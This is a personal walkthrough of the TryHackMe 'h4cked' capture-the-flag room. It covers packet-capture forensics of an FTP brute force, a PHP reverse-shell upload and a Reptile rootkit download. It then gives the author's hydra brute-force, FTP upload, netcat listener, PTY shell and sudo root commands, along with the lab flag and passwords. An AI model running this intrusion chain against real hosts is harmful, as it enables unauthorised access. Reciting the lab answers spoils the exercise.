

This is my attempt at TryHackMe's [h4cked](https://tryhackme.com/room/h4cked) challenge.

# Oh no! We've been hacked!
## The attacker is trying to log into a specific service. What service is this?
* Hint:
> Port 21
* Port 21 usually directs to an FTP server.

**Answer**: `FTP`
## There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
**Answer**: `hydra`
## The attacker is trying to log on with a specific username. What is the username?
* The username `jenny` is mentioned in multiple TCP queries:


**Answer**: `jenny`
## What is the user's password?
* The password `password123` with username `jenny` resulted in a successful FTP connection:


**Answer**: `password123`
## What is the current FTP working directory after the attacker logged in?
1. Filter by FTP.
2. Look for the first mentioning of a current directory:


**Answer**: `/var/www/html`
## The attacker uploaded a backdoor. What is the backdoor's filename?
* A file called `shell.php` was uploaded, which was later given executable permissions:


**Answer**: `shell.php`
## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?
* Hint:
> Look at the FTP-DATA protocol
* The 2nd FTP-DATA query contains the entire PHP file:


**Answer**: `http://pentestmonkey.net/tools/php-reverse-shell`
## Which command did the attacker manually execute after getting a reverse shell?
1. Filter by the 20th TCP stream: `tcp.stream == 20`, which starts after the HTTP GET request for `shell.php`.
2. Follow the stream:

3. The first command is `whoami`.

**Answer**: `whoami`
## What is the computer's hostname?
* The hostname is visible after the command `python3 -c 'from pty import spawn; spawn("/bin/bash")'` is executed, which is visible from the reverse shell's TCP stream..

**Answer**: `wir3`
## Which command did the attacker execute to spawn a new TTY shell?
* The attacker issued the command `python3 -c 'from pty import spawn; spawn("/bin/bash")'`, which is visible from the reverse shell's TCP stream.

**Answer**: `python3 -c 'from pty import spawn; spawn("/bin/bash")'`
## Which command was executed to gain a root shell?
**Answer**: `sudo su`
## The attacker downloaded something from GitHub. What is the name of the GitHub project?
* The attacker issued the command `https://github.com/f0rb1dd3n/Reptile.git`, which is visible from the reverse shell's TCP stream.

**Answer**: `Reptile`
## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
* Hint:
> A certain type of kit

**Answer**: `rootkit`
# Hack your way back into the machine
## Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

```bash
$ nmap -sC -sV 10.10.246.123
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-29 16:32 AEST
Nmap scan report for 10.10.246.123
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
$ hydra -l jenny -P rockyou.txt ftp://10.10.246.123
[21][ftp] host: 10.10.246.123   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

```bash
$ ftp 10.10.246.123
Name (10.10.246.123:applegamer22): jenny
Password: 987654321
ftp> ls
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
ftp> get shell.php
ftp> put shell.php
```

```bash
$ nc -lvnp 1234
$ python3 -c 'from pty import spawn; spawn("/bin/bash")'
www-data@wir3:/$ su jenny
Password: 987654321
jenny@wir3:/$ sudo su
[sudo] password for jenny: 987654321
root@wir3:/# cat /root/Reptile/flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```